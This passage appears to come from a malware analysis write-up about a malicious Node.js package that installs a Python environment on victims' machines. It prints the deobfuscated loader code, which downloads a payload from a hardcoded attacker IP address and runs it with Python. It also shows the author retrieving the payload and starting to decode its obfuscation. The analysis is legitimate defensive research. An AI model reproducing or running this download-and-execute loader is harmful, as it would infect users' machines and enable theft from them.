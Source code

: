 
Based on what I can tell, this seems to be the part where the code patches itself into malware. But here’s what’s bothering me: it refers to ```p.zi``` — yet when it makes a request to that endpoint, the actual file is named ```p.zip```.

Could this be a typo?

Update (12/06/2025): All of my previous assumptions were completely wrong. This isn’t where the malware is patched — it’s actually where they download the Python environment to the victim’s machine (quite meticulous, actually). This is a preparation step for executing the ```.py``` payload later on — probably because they couldn’t be sure whether a Node.js developer would already have Python installed.
![{29876A88-0AB3-40C1-BAFE-91673BEC625C}](https://hackmd.io/_uploads/SJUuKPdXle.png)

<hr style="border: none; border-top: 1px solid #ccc;">

This is one of the most interesting parts of the write-up — it calls an endpoint, downloads a file, and executes it.
```javascript
const Xt = async () => await new Promise((_0x9056d6, _0x5fd84b) => {
    if ('w' == platform[0]) {
      if (fs.existsSync(homeDir + "\\.pyp\\python.exe")) {
        (() => {
          const _0x84bcdf = homeDir + "/.npl";
          const _0x27a95f = "\"" + homeDir + "\\.pyp\\python.exe\" \"" + _0x84bcdf + "\"";
          try {
            fs.rmSync(_0x84bcdf);
          } catch (_0x267894) {}
          request.get("http://45.61.133.110:1224/client/106/81", (_0x4d56f2, _0x36c0aa, _0x1e249c) => {
            if (!_0x4d56f2) {
              try {
                fs.writeFileSync(_0x84bcdf, _0x1e249c);
                ex(_0x27a95f, (_0x30959d, _0x175d2f, _0x3defe5) => {});
              } catch (_0x32d4eb) {}
            }
          });
        })();
      } else {
        runP();
      }
    } else {
      (() => {
        request.get("http://45.61.133.110:1224/client/106/81", (_0x311f89, _0x5ca69e, _0x5b32ee) => {
          if (!_0x311f89) {
            fs.writeFileSync(homeDir + "/.npl", _0x5b32ee);
            ex("python3 \"" + homeDir + "/.npl\"", (_0x457808, _0x26c9e0, _0xda1b15) => {});
          }
        });
      })();
    }
  });
```
This's really interesting: ```request.get("http://45.61.133.110:1224/client/106/81", (_0x311f89, _0x5ca69e, _0x5b32ee)```. Can’t wait any longer — let’s send a GET request to this endpoint and see what we get. Boom, we got ```main106_81.py```.
![{08FB7192-BE6D-4004-BA26-2D07CE955EC0}](https://hackmd.io/_uploads/BJbzkWDQxg.png)
At here, we need some scripting to decrypt it. This is the code I used:
```python
for i in range(100):
    t = decompress(b64decode(x[::-1])).decode()
    # print(t)
    
    if 'exec((_)(' not in t:
```